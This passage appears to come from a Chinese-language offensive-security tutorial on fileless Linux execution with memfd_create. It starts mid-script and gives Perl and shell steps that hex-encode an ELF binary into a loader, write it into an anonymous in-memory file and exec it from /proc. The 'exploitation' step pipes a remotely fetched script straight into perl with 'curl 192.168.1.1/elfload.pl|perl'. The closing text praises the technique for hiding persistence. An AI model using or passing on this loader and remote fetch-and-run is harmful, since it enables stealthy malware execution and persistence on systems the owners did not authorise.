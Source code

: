```shell
# Make a nice Perl file handle
open(my $FH, '>&='.$fd) or die "open: $!";
select((select($FH),$l=1)[0]);

# Load binary into anonymous file (i. e. into memory)
print "Writing ELF binary to memory...";
EOF
```



**第二部分**

```shell
perl -e '$/=\32;print"print \$FH pack q/H*/, q".(unpack"H*")."/\ or die qq/write: \$!/;\n"while(<>)' elfdemo >> elfload.pl
```



**第三部分**

```shell
cat >> elfload.pl <<EOF
print "done\n";

# Execute new program
print "Here we go...\n";
exec {"/proc/$$/fd/$fd"} "formsec"
        or die "exec: $!";
```

**利用**

```shell
curl 192.168.1.1/elfload.pl|perl
```

### 优势与劣势

优势：memfd_create提供了一种创建不落地的匿名文件的方案，这极大的增强了持久化过程的的隐身性。

劣势：memfd_create只是提供了一种匿名文件创建方法，需要和其他技术结合起来一起使用比如通过fexecve调用memfd_create创建的匿名文件句柄。





